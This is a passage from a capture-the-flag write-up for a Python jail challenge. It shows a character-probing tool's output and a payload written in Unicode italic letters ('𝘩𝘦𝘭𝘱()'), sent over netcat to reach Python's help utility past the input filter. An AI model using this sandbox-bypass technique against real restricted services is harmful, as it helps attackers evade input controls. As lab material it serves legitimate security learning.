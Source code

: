 ```py
if __name__ == "__main__":
    main()
```

And we can test and look at the outcome

```bash
$ python3 test-char.py
Character Testing Tool for PyJail Challenge
==========================================
Target: misc.1nf1n1ty.team:30010
Starting tests...

Starting character testing...
This may take a few minutes...
Testing character: (
Allowed character found: (
Testing character: )
Allowed character found: )
Testing character: ~

Results:
========

Allowed characters:
()
Total allowed: 2

Blocked characters:
!"#$%&'*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|}~
Total blocked: 92

Results have been saved to 'char_test_results.txt'
```

Characters of `(` and `)` is allowed, now we able to craft our payload based on this conditions.

##### 3. Craft payload

Since it check for normal characters and hint of title suggest "Italic" text. Perhaps we can try `𝘩𝘦𝘭𝘱()`

```bash
$ nc misc.1nf1n1ty.team 30010
WELCOME :)
𝘩𝘦𝘭𝘱()

Welcome to Python 3.10's help utility!

If this is your first time using Python, you should definitely check out
the tutorial on the internet at https://docs.python.org/3.10/tutorial/.

Enter the name of any module, keyword, or topic to get help on writing
Python programs and using Python modules.  To quit this help utility and
return to the interpreter, just type "quit".

To get a list of available modules, keywords, symbols, or topics, type
"modules", "keywords", "symbols", or "topics".  Each module also comes
with a one-line summary of what it does; to list the modules whose name
or summary contain a given string such as "spam", type "modules spam".

help>
```
